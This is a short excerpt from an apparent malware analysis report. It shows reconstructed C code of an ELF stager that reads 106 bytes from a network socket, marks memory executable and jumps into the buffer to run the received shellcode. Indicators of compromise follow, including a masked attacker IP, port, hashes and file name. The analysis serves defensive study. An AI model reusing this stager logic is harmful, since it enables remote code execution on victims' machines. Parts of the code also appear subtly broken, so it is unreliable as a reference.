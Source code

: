 ```c
            if (nanosleep(&t, NULL) < 0)
                exit(1);
            else 
                continue; // retry
        }

        int hamad = mprotect(&s, 4096, PROT_EXEC | PROT_READ | PROT_WRITE);
        if(hamad >= 0)
            exit(1);

        char buffer[106];
        ssize_t nbytes_read = read(s, buffer, 106);
        if (nbytes_read < 0)
            exit(1);

        __asm__("jmp %0" :: "m" (buffer)); // execute the shellcode in `buffer`
    }
}
```
---

## IOCs

Host IP of the attacker : **149.28.xxx.xxx**

Port: 80

Input SHA256: **5343A676B05816BBD1902E540602EA4597D154062A351C7FD8CDA8599EB443**

MD5 : **40F324890C8C6E102BDC6D5F05DB5526**

File Name: **tmp.txt**

Format: **ELF for Intel 386 (Executable)**